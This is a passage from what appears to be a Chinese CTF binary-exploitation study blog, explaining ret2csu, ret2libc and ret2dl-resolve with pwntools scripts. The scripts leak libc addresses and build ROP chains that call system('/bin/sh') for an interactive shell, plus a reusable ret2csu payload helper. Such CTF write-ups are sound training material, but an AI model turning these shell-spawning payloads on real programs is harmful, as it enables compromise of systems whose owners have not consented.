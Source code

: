 ```python
r.recv()
r.send(payload1)
r.recvuntil("Ok.\n")
sleep(.1)
r_write=u64(r.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(r_write))
libc=ELF("./libc.so.6")

b_add=r_write-libc.sym["write"]
print(hex(b_add))
system_add=b_add+libc.sym["system"]

binsh_add=b_add+next(libc.search("/bin/sh\x00"))
payload4=b'a'*0x100+b'b'*0x8+p64(rdi_add)+p64(binsh_add)+p64(system_add)
r.send(payload4)
r.interactive()
```

​	ret2csu+ret2lib.另外@[jiusi](https://ctf.nefu.edu.cn/bbs/u/jiusi)师傅周报中的ret2csu通用payload也给了我启发:可以把这种要写一大堆东西而且pwntool没有整合的payload给塞到一个函数里,这样以后写这类题直接ctrl +c|v就行了.~~我宣布计算机历史上最伟大的两个快捷键就是ctrl+c|v~~

```python
def make_csustr(csu1,csu2,rdi,rsi,rdx,call,ret):
#比起jiusi的那个通用payload函数,更换了变量名,同时把csu地址加到了参数里.
	return p64(csu1)+b'a'*8+p64(0)+p64(1)+p64(rdi)+p64(rsi)+p64(rdx)+p64(call)+p64(csu2)+b'a'*56+p64(ret)
```

##### 6:ret2dl

​	我们都知道,对于一个已经被调用过的函数,它的真实地址会被存放在got表中.也就是说,~~对于一个没有被调用过的函数,它的真实地址就不会被存放在got表中~~必然存在一个机制,可以找到函数的地址,将它们存入got表.这个机制就是`_dl_runtime_resolve`.而我们利用它的方法,就是设法让它去解析我们需要的函数.

​	整个的过程比较复杂,从某种程度上来说有点类似把人骗去缅北,首先给你发假的招募信息,然后把你接到假的公司,再把你送上假的大巴,最后半路一棍子把你敲晕.(你也可以用类似的过程处理你的室友)

​	当然,完成这类题目并不需要给出题人发生假的招募信息.我们只需要给程序发假的地址让它执行dl_runtime_resolve函数,然后给他发送假的plt表,用假的plt表把程序骗到假的符号表,最后根据假的符号表指向的假的字符表去解析~~假~~真的system()函数.(如果不成功,你可以再去考虑上面的方案)

​	那么让我们看看解题脚本:

```python
from pwn import *
context.log_level = 'debug' #输出调试信息
#context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
name = './pwn1'	#程序名
p = process(name)
#p=remote('chall.pwnable.tw', 10103)
elf= ELF(name)
#libc = ELF('./libc_32.so.6')
if args.G:	#我们可以在启动脚本时附加G参数来进入gdb调试 例如 python 00.py G 当然,它可以是任何你喜欢的名字.
    gdb.attach(p)

#获取各个表的地址
rel_plt_addr = elf.get_section_by_name('.rel.plt').header.sh_addr   #0x8048330
dynsym_addr =  elf.get_section_by_name('.dynsym').header.sh_addr    #0x80481d8
dynstr_addr = elf.get_section_by_name('.dynstr').header.sh_addr     #0x8048278

#resolve 函数地址
resolve_plt = 0x08048380
#learet地址
leave_ret_addr = 0x0804851d
#我也不知道这是干啥的,反正应该是个可写的地址
start = 0x804aa00

fake_rel_plt_addr = start #我们未来会把假的plt表放到这里
fake_dynsym_addr = fake_rel_plt_addr + 0x8 #因为fake_plt长度为0x8,所以假的符号表就在它后面0x8的位置.(如果这个程序为64位,这个长度大概就会变成0x10)
```

[^*]: 说到素数,前几天我在写python实验作业,完成一个输出区间内所有素数的程序,上了埃氏筛没过.于是我换成线性筛,结果还是过不了.本来我都打算换c++打表来优化了,结果老师告诉我数据错了... 另外顺便一提,python的题目一般不会有时间复杂度限制